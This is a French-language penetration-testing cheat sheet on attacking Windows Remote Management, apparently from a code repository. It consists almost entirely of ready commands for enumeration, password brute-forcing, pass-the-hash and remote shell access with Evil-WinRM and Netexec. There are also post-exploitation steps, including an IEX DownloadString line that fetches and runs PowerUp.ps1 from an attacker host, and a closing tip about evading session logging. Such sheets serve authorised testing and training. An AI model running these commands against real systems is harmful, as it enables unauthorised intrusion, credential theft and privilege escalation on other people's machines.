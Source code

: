 # WinRM (5985,5986/TCP)

Windows Remote Management est un protocole permettant l'administration à distance de systèmes Windows.

## 🔍 Énumération

### Scan de base
```bash
# Vérifier si WinRM est actif (HTTP/HTTPS)
nmap -p 5985,5986 $IP

# Scanner en détail
nmap -sV -p 5985,5986 $IP
```

### Vérification d'accès
```bash
# Avec Metasploit
use auxiliary/scanner/winrm/winrm_auth_methods
set RHOSTS $IP
run

# Avec Netexec
nxc winrm $IP
```

## 🔨 Exploitation

### Authentification
```bash
# Test de connexion avec Netexec
nxc winrm $IP -u $USER -p '$PASSWORD'

# Si le port SMB est fermé, ignorer la vérification SMB
nxc winrm $IP -u $USER -p '$PASSWORD' -d $DOMAIN --no-smb
```

### Exécution de commandes
```bash
# Exécution simple
nxc winrm $IP -u $USER -p '$PASSWORD' -x "whoami /all"

# Avec Evil-WinRM
evil-winrm -i $IP -u $USER -p '$PASSWORD'

# Avec Ticket Kerberos
KRB5CCNAME=$TICKET evil-winrm -i $IP -u $USER -r $DOMAIN
```

### Attaque par force brute
```bash
# Avec Hydra
hydra -L users.txt -P passwords.txt $IP winrm

# Avec Netexec
nxc winrm $IP -u users.txt -p passwords.txt
```

### Pass-the-Hash
```bash
# Avec Evil-WinRM
evil-winrm -i $IP -u Administrator -H 'HASH_NT'

# Avec Netexec
nxc winrm $IP -u Administrator -H 'HASH_NT'
```

## 🔐 Post-exploitation

### Transfert de fichiers
```bash
# Avec Evil-WinRM
# Téléverser un fichier
*Evil-WinRM* PS> upload /path/to/local/file.exe C:\Windows\Temp\file.exe

# Télécharger un fichier
*Evil-WinRM* PS> download C:\Windows\Temp\interesting.txt /path/to/local/
```

### Chargement de scripts PowerShell
```bash
# Avec Evil-WinRM
*Evil-WinRM* PS> Invoke-Binary /path/to/local/Rubeus.exe

# Charger un module PowerShell
*Evil-WinRM* PS> menu
*Evil-WinRM* PS> Invoke-PowerShellTcp
```

### Élévation de privilèges
```bash
# Vérifier les droits actuels
*Evil-WinRM* PS> whoami /priv

# Charger PowerUp
*Evil-WinRM* PS> IEX(New-Object Net.WebClient).DownloadString('http://ATTACKER_IP/PowerUp.ps1')
*Evil-WinRM* PS> Invoke-AllChecks
```

## ⚠️ Erreurs courantes & astuces
- WinRM nécessite souvent d'être membre du groupe "Remote Management Users"
- L'accès via WinRM peut être limité par des GPO (vérifiez les groupes)
- WinRM sur HTTPS (5986) peut nécessiter une validation de certificat
- Le firewall Windows peut bloquer WinRM même s'il est activé
- Les sessions WinRM sont journalisées (considérez les techniques d'évasion)